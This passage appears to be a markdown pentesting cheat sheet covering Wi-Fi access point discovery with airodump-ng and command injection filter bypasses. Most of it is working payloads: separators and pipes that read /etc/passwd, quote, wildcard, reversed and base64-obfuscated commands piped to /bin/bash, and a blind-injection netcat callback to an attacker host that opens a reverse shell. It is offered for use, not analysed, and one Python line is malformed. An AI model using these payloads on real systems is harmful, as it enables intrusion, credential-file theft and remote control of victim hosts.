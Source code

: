 ```shell
```
### Get Original AP / MITM detection (part) by BSSID + ESSID filter
```shell
airodump-ng --band abg wlan0 / --essid AP_NAME / --bssid MAC_ADDRESS_OF_ORIGINAL_DEVICE
```
### Command Injection filter bypass - reflected
1. Using command seperate: ```; pwd```
2. Using command append: ```&& cat /etc/passwd```
3. Using pipe: ```| cat /etc/passwd```
4. Using quoted command - add quotes for any character in word (EX:```cat/et"c"/p"a"ssw"d"```)
5. Using wildcards - replace any word with "```*```" & "```?```" (EX:```cat /etc/pa*wd``` or ```cat /etc/p?sswd```)
6. Using null vars - add ``` `` ``` in between words (EX:```cat /e``tc/p``asswd```)
7. Multi bypass - (EX:``` |cat /"e"t``c/p?sswd ```)
8. Lethal injection 1 - reversed + multi filters (EX:```echo "dws?ap/c``t"e"/ tac" | rev | /bin/bash```)
9. Lethal injection 2 - reversed + endeded + multi filters (EX:```echo "ZHdzP2FwL2NgYHQiZSIvIHRhYw==" | base64 -d | rev | /bin/bash```)


Fuzzing for bypass: https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/command-injection.md

```"dws?ap/c``t"e"/ tac" | rev```

### Command Injection filter bypass - blind
1. Test reflection
On victim asset:
```shell
127.0.0.1 | nc ip_addr_attacker port_number
```
On attacker machine:
```shell
nc -lvp port_number
```
2. If reflection success, get reverse shell
On victim asset:
```shell
127.0.0.1 | nc ip_addr_attacker port_number -e /bin/bash
```
On attacker machine:
```shell
python -c "import pty:pty.spawn('/bin/bash')"
```
